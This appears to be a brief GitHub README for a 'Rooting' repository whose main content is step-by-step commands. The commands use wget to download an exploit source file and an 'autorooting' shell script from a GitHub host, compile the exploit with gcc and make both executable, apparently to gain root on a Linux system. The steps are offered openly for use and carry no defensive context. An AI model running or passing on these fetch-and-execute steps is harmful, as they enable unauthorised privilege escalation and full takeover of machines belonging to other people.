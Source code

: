 # Rooting
Rooting

<b>Recoded File.C Dirty</b>

Step  1 :
wget https://raw.githubusercontent.com/mr403forbidden/Rooting/master/exploit.c
gcc -pthread exploit.c -o exploit -lcrypt
chmod +x exploit
enter

Step 2 :
wget https://raw.githubusercontent.com/mr403forbidden/Rooting/master/autorooting.sh
chmod +x autorooting.sh
enter

